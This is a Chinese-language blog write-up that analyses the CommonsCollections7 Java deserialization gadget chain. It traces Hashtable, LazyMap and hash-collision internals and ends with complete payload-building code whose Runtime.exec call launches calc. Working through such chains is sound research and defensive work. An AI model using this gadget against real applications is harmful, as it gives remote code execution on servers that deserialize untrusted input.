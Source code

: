 # [Java反序列化]CommonsCollections7利用链

## 前言

之前Jiang宝的rome链用到了cc7的知识，但是还没有好好看过CC7，正巧今天晚上看Z3ratu1师傅博客的时候看到了他CC7的文章，突然想到了自己一直咕的，就给看看了。

## 分析

因为比较简单，直接看ysoserial的chain了：

```java

    chain:
    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

`Hashtable`的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the length, threshold, and loadfactor
        s.defaultReadObject();

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Compute new size with a bit of room 5% to grow but
        // no larger than the original size.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)(elements * loadFactor) + (elements / 20) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        if (origlength > 0 && length > origlength)
            length = origlength;
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // synch could be eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

最后会循环反序列化key和value，然后进入`reconstitutionPut`函数：

```java
    private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

先计算key的hashCode，然后从tab种取有没有元素的hash等于目前这个key的hashCode而且这个元素的key等于目前的key。

找不到就把它添加到tab中。

如果hash相同的话，会进入`e.key.equals(key)`：

如果`e.key`是`HashMap`的话，会依次调用`AbstractMapDecorator`的`equals`，`AbstractMap`的`equals`函数：

```java
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

先把能够hash相同的key转换成Map，再对当前Map进行迭代，获得当前`Map`的key和value，最后调用能hash相同的key的get函数：![image-20220314210806527]([Java反序列化]CommonsCollections7利用链.assets/image-20220314210806527.png)

从这个get函数开始就和`LazyMap`后续链子的利用接上了。

hash相同则是一个trick：

```java
        System.out.println("aa".hashCode()=="bB".hashCode());
        System.out.println("yy".hashCode()=="zZ".hashCode());
```

依次类推。

对于`HashMap`的hash的计算：

```java
    public int hashCode() {
        int h = 0;
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext())
            h += i.next().hashCode();
        return h;
    }
```

取其所有`key`的hash相加。

所以对于2个HashMap而已，如果key能够Hash碰撞，那么对于HashMap本身来说就是hash相等的。

因此构造：

```java
        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{"calc"};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        execArgs),
                new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        SerializeUtil.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");
        byte[] serialize = SerializeUtil.serialize(hashtable);
        SerializeUtil.unserialize(serialize);
```

是先处理`lazyMap1`，再处理`lazyMap2`。

之所以要`lazyMap2.remove("yy");`，单纯的还是因为`hashtable.put(lazyMap2, 2);`的时候处理和反序列化的处理类似，提前触发了一遍get：

![image-20220314212052980]([Java反序列化]CommonsCollections7利用链.assets/image-20220314212052980.png)

`map.put(key, value);`导致了第二个HashMap获得了`yy`的key，这样反序列化的时候无法触发：

```java
        if (m.size() != size())
            return false;
```

为了不影响， 所以要把`yy`给去掉。